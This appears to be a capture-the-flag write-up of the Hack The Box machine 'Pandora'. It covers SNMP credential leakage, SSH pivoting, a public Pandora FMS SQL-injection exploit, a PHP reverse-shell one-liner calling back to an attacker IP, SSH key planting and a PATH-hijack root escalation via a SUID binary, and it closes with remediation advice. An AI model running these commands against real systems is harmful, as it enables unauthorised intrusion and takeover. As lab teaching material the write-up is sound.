## Machine Information

- **Machine Name:** Pandora
- **Machine IP:** 10.10.11.136
- **Machine Type:** Easy
- **Machine OS:** Linux

---

## Reconnaissance - Information Gathering

*"Reconnaissance"* is the first and foremost step while performing any kind of hacking, and no matter what hat you are wearing, your first step will always be information gathering. This is one of the reason why Digital Forensics peeps try finding any IoCs which might have been dropped by the attacker during his Information gathering phase because cleaning those up are really hard. If you see a high rise of *SYN and ACK* packets in a sequence then definitely there was a port scanning performed. 

> *"It is crucial to know which information will lead you to the root, and which will lead you in a jail"*

### Ports & Services Scan

Imagine yourself a great thief from Pluto, and you are given a task to come on Earth and steal a diamond stored in a Royal Palace. You know nothing about the Royal palace, only knows the *address* to reach it. What shall be your next move? If I were you, I would have visited the Royal palace before executing my plan. Even in cybersecurity, if we have an *IP address* then the first step is to visit that address from different ports and figure out which are open to communicate.

**Command:**
- `sudo nmap -sVC -p- -O 10.10.11.136 | tee nmapPandora.txt`



**Output:**

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-22 17:23 EDT
Nmap scan report for 10.10.11.136
Host is up (0.022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.52 seconds
```

From the output of the nmap, where we searched for all open ports, default scripts (NSEs), service version, and OS detection we can see that there are 2 significant ports open:
1. 80/tcp (http) - This is most likely to be our way in, if it has any vulnerabilities linked to the website being hosted.
2. 22/tcp (ssh) - This will not be a direct target for initial foothold, but it can be used to pivot our privileges to a user's shell or root shell.

The OS being detected is guessed to be *Linux 4.15 - 5.19*, and the reason why it cannot give an accurate response is because it checks for 3 things in a response from the target OS: *TCP fingerprint, Window size, and TTL number* and many a times multiple OSes have same attributes due to which the nmap mention all OSes that match that attribute. If we still analyze, then we can see it is an Ubuntu machine from the Apache server being hosted.

**Command:**
- `sudo nmap -sUV -T4 -F 10.10.11.136`



Now before I go further ahead of my analysis, I want to mention that this was not my immediate next step. I did started a UDP port scan after my TCP scan, but we 90% do not get anything interesting from UDP scan, so I ignored it and started focusing on TCP port 80, but then I was stuck and thought to run a quick UDP scan (because my previous one was stuck) and I hate doing this because UDP scan takes a very long time because of the working of UDP, it is a connectionless protocol. Thankfully, the scan was completed in time and I was surprised to see *SNMP version 1 on port 161/udp*.

### HTTP (80) Enumeration

In this step, we will start our enumeration on different information we found from our port and service scans. We will be starting with *80/tcp* which is running an Apache service, and many a times we might find some vulnerabilities in the website because there are always vulnerabilities.




The website is providing a service named *PLAY* which is seem to be a monitoring solution, but it do not have any background technologies that might be useful to us like MySQL, PHP, or ASPX. 

**Commands:**
- `feroxbuster --url http://10.10.11.136/ --depth 2 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `sudo nikto --url http://10.10.11.136/ | tee niktoPandora.txt`



We perform a directory search using a well-known tool `feroxbuster`. You can use `dirbuster` or `gobuster`, and I would suggest to use all three if you are doing a real red teaming because if one tool misses a directory, still you will get to it because other tools will show that directory as available. It is a good practice to use multiple tools for the same task, it also verifies the output and you will less likely fall in a rabbit-hole.



I went through all the output of feroxbuster and thought maybe the site is running wordpress, and my `nikto` enumeration did verified it. This is why I insist people to learn every single tool that is available. I tried exploit and messing with that wordpress, but got no luck, so I continued my enumeration.

> *"If you are stuck, then it can mean two things: You are not looking closely, or you are looking very closely but not on the right place"*

### SNMP (161) Enumeration

I was expecting a vulnerability from the webserver, but unfortunately we could not find one, so I focused my mind on other ports. Now SSH is definitely not the answer, so we will look into SNMP. We already know that the target is running SNMP version 1, which might be vulnerable if it is using community string as *Public*. In SNMP, *Public community string* is like an anonymous login through FTP, we can view things which are permitted to us. Sometimes, we might get to see some sensitive stuff here.

**Command:**
- `snmp-check -v1 10.10.11.136 | tee snmpV1.txt`




The output was really huge, I recommend to read through every single line, this will help you understand what is normal and what is abnormal. As I was going through all the processes running on the target (SNMP showed us), my attention goes to a `bash` script known as *host_check* being executed with a credential. In Linux, there are so many commands that have a separate option, such as *-p, -P, --pass, or --password* which are used to provide authentication detail to that command, but this is a very unhealthy way of running a command, if someone get access to your bash log history or look through the running processes, then he might get access to your credentials.

**Creds -** daniel:HotelBabylon23

---

## Initial Foothold - gimme a shell

After you are done with your recon and enumeration, it is important to use the information gathered in a positive way, no not to mediate, use it to penetrate. If you know that the target system is exposing some sensitive data to the public, and you just report it to the company then it sounds like bread butter. You need to make a proper sandwich, with veggies and sauces, you need to prove what an attacker can do by exploiting the system by yourself. 

### SSH to daniel

As I have previously mentioned, you will not directly exploit `OpenSSH` to get a shell, you will use it to pivot to a shell. These two terms are very different, to know what I am saying here, try exploiting few machines and you will know it by yourself.

**Command:**
- `ssh daniel@10.10.11.136`



We got our initial foothold through SSH, because there were hardcoded credentials left on a command-line and we were able to view the process through SNMP. Unfortunately, daniel do not have permission to view the user flag, so let's move to the step where we become matt.

### Hacking Pandora - What is it?

Once you have access to one of the user, getting access to other users (including the root) becomes pretty easy because then you have access to roam in the system and go through stuff that you have access to. 

**Commands:**
- `/usr/bin/host_check -u daniel -p HotelBabylon23`
- `cat .host_check`



I tried executing the same command that we found in the SNMP process listing, and it writes a file to `~/.host_check` which shows the version information of `Pandora` service.

**Commands:**
- `searchsploit Pandora FMS`
- `searchsploit Pandora FMS 7.0NG`




I looked for any available exploit for this version, and we found a RCE (Authenticated) exploit for this Pandora version. Unfortunately, it was authenticated so we will need to first access the service and know more about it.

**Commands:**
- `ls -al /var/www/`
- `ls -al /etc/apache2/sites-enabled/`
- `cat /etc/apache2/sites-enabled/000-default.conf`
- `cat /etc/apache2/sites-enabled/pandora.conf`




I tried searching for any *VirtualHosting* and first thing I look in */var/www/* because if there are two or more directories here then it means there might be a VirtualHosting. We see a directory named *Pandora*, then I go to */etc/apache2/sites-enabled* and we found that there is a VirtualHosting running on Local port 80.

**Command:**
- `ss -tunlp`



I also look for all the ports that the system is listening, and we can see port 3306 which is famously used as `sql port`. This might be useful if you are thinking about any SQL injections.

**Command:**
- `ssh -i daniel_key daniel@10.10.11.136 -L 8081:localhost:80`




I use `ssh` to perform a port forward, and now I can access local port 80 of target machine on my local port 8081. There is a login page, now I am more confirmed that we will have to perform SQL injection in some sense, because port 3306 running, and a login form is not coincidence.

**Commands:**
- `git clone https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated.git`
- `cd Pandora_v7.0NG.742_exploit_unauthenticated`
- `cat README.md`




**Link:** [Github](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated)

We found a github exploit that was unauthenticated and it used SQL injection to perform a malicious PHP file upload. This method is similar to `--os-shell` option of `sqlmap` command, even in that command the tool tries to upload a malicious file and spawn a shell, here we will do the same by uploading a malicious PHP file.

**Commands:**
- `echo php -r '$sock=fsockopen(10.10.14.12,4343);exec("/bin/bash -i <&3 >&3 2>&3");' > zeroShell.php`
- `./sqlpwn.py -t 127.0.0.1:8081 -f zeroShell.py`




We created a one-liner PHP script that executes a /bin/bash on an open socket to our IP and port. No listener might be needed because the exploit itself has a custom listener setup by default, but you always have a choice to fire up your netcat listener if you need a proper shell. We finally logged in as matt and we also got the user flag.

---

## Privileges Escalation - I AM gROOT

We were able to get our Initial Foothold through a dumb hardcoded credentials which we found through SNMP, then we had to perform a laternal movement to matt user to access the user flag stored in his directory, and now we are on the final step, the step that is thrilling to all hackers, the step that will make you the GOD of the system. Time to be the root!

>*"If you want to hack a system, then why not going for the root?"*

### SUID binary abuse

First step that I always do on a linux box after I get a proper initial foothold, is that I look for sudo binaries and SUID binaries, because most of the times it is these binaries that lead us to the root. 

**Commands:**
- `ssh-keygen`
- `cat ~/.ssh/id_rsa.pub`
- `echo "[authorized_key_string]" > /home/matt/.ssh/authorized_keys` (In PHP shell)
- `ssh -i ../daniel_key matt@10.10.11.136`




Firstly, let us get a SSH shell, because this PHP shell sucks. You can also do a netcat shell and then convert it into a python3 pwn shell, then export stty configuration, and xterm to make it a proper working reverse shell, but SSH is best if it is running.

**Commands:**
- `find / -perm -u=s 2>/dev/null`
- `ls -al /usr/bin/pandora_backup`



We found a binary with SUID bit set, known as `pandora_backup`. A SUID bit binary means that any user can execute that binary as the owner of that binary (In our case it is root). So to simplify it, we can execute this binary as root, and if we are able to abuse it somehow then we might get access to root.

**Commands:**
- `cat /usr/bin/pandora_backup | base64 -w0 > pandora_backup.txt`
- `cat pandora_backup.txt`




For some weird reason, `strings` command was not on the target machine so I converted the whole binary in base64 and copied it to my local system for analysis. I also verified the integrity of the file on the target system and on my local system by using the `md5sum` command. This is very important if you transfer something from the target machine to your system to analyze it, if the md5 hash are not same then the file has lost its integrity and it will be waste of time to analyze it. Thankfully, in our case file was intact.

**Commands:**
- `cat encoded_string.txt | base64 -d > pandora_backup.sh`
- `cat pandora_backup.sh`
- `strings pandora_backup.sh`




**Commands:**
- `echo "/bin/bash" > tar`
- `export PATH=$(pwd):$PATH`
- `chmod +x tar`
- `/usr/bin/pandora_backup`

From the `strings` command we can see that binary is calling `tar` command but an absolute path is not provided. We can create our own `tar` binary and `pandora_backup` will execute that instead of the real `tar` command. You can see that I created a `tar` named binary with `/bin/bash` in it, so once it will be called from a root-owned binary then we will get a root shell. When we execute `pandora_backup`, then immediately we get the root shell and we were able to access the root flag.

---

## Conclusion - THE END

The Pandora box serves as a practical example of how seemingly low-risk services like *SNMP* can lead to full system compromise when combined with poor internal application security and misconfigured binaries. It emphasizes the importance of internal service hardening and the risks of leaving unnecessary or weakly protected services running on production systems. The machine offers a well-rounded learning experience, showcasing enumeration, laternal movement, and privilege escalation techniques in a real-word-like scenario.

### Lessons Learned

- **Service Enumeration Matters:** Even *"low-risk"* services like SNMP can disclose sensitive information if not properly secured.
- **Never Trust Internal Services:** Internal applications should be treated with the same level of security scrutiny as public-facing ones.
- **SUID Misconfigurations Are Dangerous:** Poorly secured binaries with elevated privileges remain one of the most common and critical privilege escalation vectors.
- **Chain Attacks Are Real:** A full compromise often involves chaining multiple vulnerabilities rather than exploiting a single weakness.

### Vulnerabilities Exploited

- **SNMP Information Disclosure:** Leaked credentials in SNMP community string enabled initial access.
- **SQL Injection in Pandora FMS:** Allowed arbitrary command injection.
- **Remote Command Execution:** Leveraged through the internal Pandora FMS web interface via port forwarding.
- **PATH Variable Injection:** Used to escalate privileges via a misconfigured SUID binary.

### How to Fix

- **Secure SNMP Configuration:** Disable SNMP if not needed or enforce proper community string access control with encryption (SNMPv3).
- **Restrict Internal Services:** Use firewalls and access controls to limit exposure of sensitive internal services like Pandora FMS.
- **Sanitize Inputs:** Ensure all user input in applications is properly sanitized and use prepared statements to prevent SQL injection.
- **Harden SUID Binaries:** Regularly audit SUID binaries, avoid relying on `PATH` where not needed, and implement strict permissions.

### Last Note

If you enjoyed this write-up and want to learn more about ethical hacking, CTFs, and real-world security techniques, feel free to connect with us:
- **Discord Server:** [Discord](https://discord.gg/wyfwSxn3YB)
- **Instagram:** [Instagram](https://www.instagram.com/_0x30_/)

Let's grow and learn together in this ever-evolving field!

